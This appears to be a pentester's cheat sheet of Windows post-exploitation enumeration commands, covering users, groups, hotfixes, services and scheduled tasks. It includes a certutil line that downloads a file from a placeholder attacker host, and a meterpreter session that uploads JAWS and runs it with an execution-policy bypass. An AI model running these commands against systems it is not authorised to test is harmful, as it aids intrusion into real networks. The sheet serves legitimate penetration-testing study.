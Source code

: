# Downloading a file
```
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

# Hotfixes
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

# Current user privs
```
whoami /priv
```

# Network users
```
net users

net user /domain

net user <user> /domain
```

# Enumerate a specific user
```
net user <user>
```

# Enumerate groups
```
net localgroup

net group /domain

net group "<group>" /domain
```

```
ipconfig /all
route print
netstat -ano
arp -a
```

# Enumerate Services
```
# In a shell session
net start
wmic service list brief
```

# Enumerate Process/Services
```
tasklist /SVC
schtasks /query /fo LIST
schtasks /query /tn <TASK> /fo list /v
```

# Automated enumeration (JAWS)

```
meterpreter> cd C:\\
meterpreter> dir
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload jaws-enum.ps1
meterpreter> shell
CMD> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

```

# AD Enumeration
Can be found in [3 - Post Exploitation > Windows Commands > Active Directory Enumeration](../../../../C3/Pentest%20Phasing/3%20-%20Post%20Exploitation/Windows%20Commands/Active%20Directory%20Enumeration.md)


windows/gather/enum_*

